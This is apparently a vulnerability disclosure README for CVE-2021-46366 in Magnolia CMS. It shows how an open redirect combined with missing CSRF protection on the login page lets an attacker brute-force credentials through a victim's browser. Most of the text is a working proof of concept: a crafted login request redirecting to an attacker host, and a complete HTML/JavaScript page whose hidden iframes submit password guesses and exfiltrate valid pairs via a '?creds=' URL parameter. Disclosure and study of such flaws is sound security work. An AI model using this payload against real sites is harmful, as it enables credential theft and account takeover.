


# CVE-2021-46366: Credential Bruteforce Attack via CSRF + Open Redirect in Magnolia CMS

In Magnolia (versions <=6.2.3) by combining a "Open Redirect" vulnerability with a "Cross-Site Request Forgery" (CSRF) vulnerability, an attacker may use a victim, with access to the Magnolia Login page, to bruteforce potential user-password combinations and exfiltrate any valid credentials back to the attacker.
<br/>
This attack can be used to hide the attacker's source IP from the Magnolia server or bypass IP restrictions that may be in place.
<br/>

### Vendor Disclosure:

The vendor's disclosure and fix for this vulnerability can be found [here](https://docs.magnolia-cms.com/product-docs/6.2/Releases/Release-notes-for-Magnolia-CMS-6.2.4.html#_security_advisory).

### Requirements:

This vulnerability requires:
<br/>
- User Interaction

### Proof Of Concept:

#### Open Redirect

The login page is vulnerable to a "Open Redirect" vulnerability via the "mgnlReturnTo" get parameter. The redirect only occurs on a successful login.

Example HTTP Request:
```
POST /magnoliaPublic/.magnolia/admincentral?mgnlReturnTo=http%3A%2F%2Fmal.hexor%2F HTTP/1.1
Host: 192.168.243.180:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

mgnlUserId=superuser&mgnlUserPSWD=superuser&csrf=
```

Open Redirect HTTP Response:
```
HTTP/1.1 302 
Set-Cookie: JSESSIONID=4583E475B83C6B5C21DF44572CABE1F1; Path=/magnoliaPublic; HttpOnly; SameSite=Strict
X-Magnolia-Registration: Registered-demo
Location: http://mal.hexor/
Content-Length: 0
Date: Wed, 28 Oct 2020 22:50:22 GMT
```

#### Combining Open Redirect with CSRF to Exfiltrate Valid Credentials

We create the following HTML page that leverages the "Open Redirect" and the "Lack of CSRF Protection" of the Login Page in order to bruteforce a set of credentials:
```
<html>
  <body>

    <form id="malForm" target="" method="POST">
      <input type="hidden" id="user" name="mgnlUserId" value="" />
      <input type="hidden" id="pass" name="mgnlUserPSWD" value="" />
      <input type="hidden" name="csrf" value="" />
    </form>

<script>
var user = "superuser";
var pass = ["test1", "test2", "superuser"];

for (i = 0; i < pass.length; i++) {
	var iframe = document.createElement('iframe');
	iframe.style.display = "none";
	iframe.name = pass[i];
	document.body.appendChild(iframe);


	var action = "http://192.168.243.180:8080/magnoliaPublic/.magnolia/admincentral?mgnlReturnTo=" + encodeURI(document.location.origin + "?creds=" + user +  ":" + pass[i]);
	document.getElementById("malForm").action = action; 
	document.getElementById("malForm").target = pass[i]; 
	console.log(pass[i]);
	document.getElementById("user").value = user;
	document.getElementById("pass").value = pass[i];
	document.getElementById("malForm").submit();
}
</script>

  </body>
</html>
```

<strong>Note:</strong> The HTML file can be found [here](Payloads/brute_csrf_iframe.html) for easy download.
<br/>

We host the malicious HTML via a python webserver at address "localhost:8000/brute_csrf_iframe.html". When accessed the JavaScript in the page will be triggered resulting in multiple iframes which will be used to perform the password bruteforce:



Because the "Open Redirect" is followed only when a valid set of credentials is entered, we can remotely exfiltrate these valid credentials by including them as GET parameters in the URL which will be followed by the "Open Redirect".
<br/>

So, although we try multiple credentials, only "superuser:superuser" will trigger the redirect and the attacker server will log them via the GET parameter "?creds=".


